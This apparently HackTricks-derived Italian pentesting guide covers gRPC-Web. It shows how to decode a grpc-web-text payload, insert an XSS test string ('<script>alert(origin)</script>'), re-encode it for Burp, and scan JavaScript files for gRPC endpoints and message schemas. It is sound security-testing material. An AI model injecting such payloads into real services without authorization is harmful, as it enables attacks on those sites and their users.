 # Pentesting gRPC-Web

{{#include ../banners/hacktricks-training.md}}

## **Manipolazione dei Payload gRPC-Web**

gRPC-Web utilizza Content-Type: `application/grpc-web-text` nelle richieste, che è una sorta di protobuf in forma codificata in base64. Puoi utilizzare lo strumento [gprc-coder](https://github.com/nxenon/grpc-pentest-suite) e puoi anche installare la sua [Burp Suite Extension](https://github.com/nxenon/grpc-pentest-suite).

### **Manuale con lo strumento gGRPC Coder**

1. Prima decodifica il payload:
```bash
echo "AAAAABYSC0FtaW4gTmFzaXJpGDY6BVhlbm9u" | python3 grpc-coder.py --decode --type grpc-web-text | protoscope > out.txt
```
2. Modifica il contenuto del payload decodificato
```
nano out.txt
2: {"Amin Nasiri Xenon GRPC"}
3: 54
7: {"<script>alert(origin)</script>"}
```
3. Codifica il nuovo payload
```bash
protoscope -s out.txt | python3 grpc-coder.py --encode --type grpc-web-text
```
4. Utilizza l'output nell'intercettore di Burp:
```
AAAAADoSFkFtaW4gTmFzaXJpIFhlbm9uIEdSUEMYNjoePHNjcmlwdD5hbGVydChvcmlnaW4pPC9zY3JpcHQ+
```
### **Manuale con l'estensione gRPC-Web Coder di Burp Suite**

Puoi utilizzare l'estensione gRPC-Web Coder di Burp Suite in [gRPC-Web Pentest Suite](https://github.com/nxenon/grpc-pentest-suite) che è più semplice. Puoi leggere le istruzioni per l'installazione e l'uso nel suo repository.

## **Analisi dei file Javascript gRPC-Web**

C'è almeno un file Javascript in ogni applicazione gRPC-Web. Puoi analizzare il file per trovare nuovi messaggi, endpoint e servizi. Prova a utilizzare lo strumento [gRPC-Scan](https://github.com/nxenon/grpc-pentest-suite).

1. Scarica il file Javascript gRPC-Web
2. Scansiona con grpc-scan.py:
```bash
python3 grpc-scan.py --file main.js
```
3. Analizza l'output e testa i nuovi endpoint e i nuovi servizi:
```
Output:
Found Endpoints:
/grpc.gateway.testing.EchoService/Echo
/grpc.gateway.testing.EchoService/EchoAbort
/grpc.gateway.testing.EchoService/NoOp
/grpc.gateway.testing.EchoService/ServerStreamingEcho
/grpc.gateway.testing.EchoService/ServerStreamingEchoAbort

Found Messages:

grpc.gateway.testing.EchoRequest:
+------------+--------------------+--------------+
| Field Name |     Field Type     | Field Number |
+============+====================+==============+
| Message    | Proto3StringField  | 1            |
+------------+--------------------+--------------+
| Name       | Proto3StringField  | 2            |
+------------+--------------------+--------------+
| Age        | Proto3IntField     | 3            |
+------------+--------------------+--------------+
| IsAdmin    | Proto3BooleanField | 4            |
+------------+--------------------+--------------+
| Weight     | Proto3FloatField   | 5            |
+------------+--------------------+--------------+
| Test       | Proto3StringField  | 6            |
+------------+--------------------+--------------+
| Test2      | Proto3StringField  | 7            |
+------------+--------------------+--------------+
| Test3      | Proto3StringField  | 16           |
+------------+--------------------+--------------+
| Test4      | Proto3StringField  | 20           |
+------------+--------------------+--------------+

grpc.gateway.testing.EchoResponse:
+--------------+--------------------+--------------+
|  Field Name  |     Field Type     | Field Number |
+==============+====================+==============+
| Message      | Proto3StringField  | 1            |
+--------------+--------------------+--------------+
| Name         | Proto3StringField  | 2            |
+--------------+--------------------+--------------+
| Age          | Proto3IntField     | 3            |
+--------------+--------------------+--------------+
| IsAdmin      | Proto3BooleanField | 4            |
+--------------+--------------------+--------------+
| Weight       | Proto3FloatField   | 5            |
+--------------+--------------------+--------------+
| Test         | Proto3StringField  | 6            |
+--------------+--------------------+--------------+
| Test2        | Proto3StringField  | 7            |
+--------------+--------------------+--------------+
| Test3        | Proto3StringField  | 16           |
+--------------+--------------------+--------------+
| Test4        | Proto3StringField  | 20           |
+--------------+--------------------+--------------+
| MessageCount | Proto3IntField     | 8            |
+--------------+--------------------+--------------+

grpc.gateway.testing.ServerStreamingEchoRequest:
+-----------------+-------------------+--------------+
|   Field Name    |    Field Type     | Field Number |
+=================+===================+==============+
| Message         | Proto3StringField | 1            |
+-----------------+-------------------+--------------+
| MessageCount    | Proto3IntField    | 2            |
+-----------------+-------------------+--------------+
| MessageInterval | Proto3IntField    | 3            |
+-----------------+-------------------+--------------+

grpc.gateway.testing.ServerStreamingEchoResponse:
+------------+-------------------+--------------+
| Field Name |    Field Type     | Field Number |
+============+===================+==============+
| Message    | Proto3StringField | 1            |
+------------+-------------------+--------------+

grpc.gateway.testing.ClientStreamingEchoRequest:
+------------+-------------------+--------------+
| Field Name |    Field Type     | Field Number |
+============+===================+==============+
| Message    | Proto3StringField | 1            |
+------------+-------------------+--------------+

grpc.gateway.testing.ClientStreamingEchoResponse:
+--------------+----------------+--------------+
|  Field Name  |   Field Type   | Field Number |
+==============+================+==============+
| MessageCount | Proto3IntField | 1            |
+--------------+----------------+--------------+
```
## Riferimenti

- [Hacking into gRPC-Web Articolo di Amin Nasiri](https://infosecwriteups.com/hacking-into-grpc-web-a54053757a45)
- [gRPC-Web Pentest Suite](https://github.com/nxenon/grpc-pentest-suite)

{{#include ../banners/hacktricks-training.md}}
